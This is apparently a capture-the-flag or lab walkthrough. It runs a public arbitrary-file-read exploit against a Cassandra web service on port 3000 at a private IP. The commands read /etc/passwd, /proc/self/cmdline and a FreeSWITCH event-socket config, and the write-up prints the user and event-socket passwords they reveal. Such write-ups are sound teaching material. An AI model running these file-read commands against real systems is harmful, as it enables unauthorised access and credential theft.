 We have cassandra in port 3000:
![](../attachment/92921c4d790f2a14cf635a26fb150e29.png)
We find an exploit for cassandra https://www.exploit-cassandra.db.com/exploits/49362 :
Now we can run the exploit:
```
python3 cassandra.py -p 3000 192.168.236.240 /etc/passwd
```
![](../attachment/5c929902172221f00377763c952a2521.png)

Now to get credentials:
```
python3 cassandra.py -p 3000 192.168.236.240 /proc/self/cmdline
```
![](../attachment/8f952c7963793c670028b674e5c71d47.png)

`cassie : SecondBiteTheApple330`

Now we can get the password for freeswitch event from `/etc/freeswitch/autoload_configs/event_socket.conf.xml`
```
python3 cassandra.py -p 3000 192.168.236.240 /etc/freeswitch/autoload_configs/event_socket.conf.xml
```
![](../attachment/87062ce59dc4f91de5f3ef424db730cc.png)
We have a password `StrongClueConEight021`
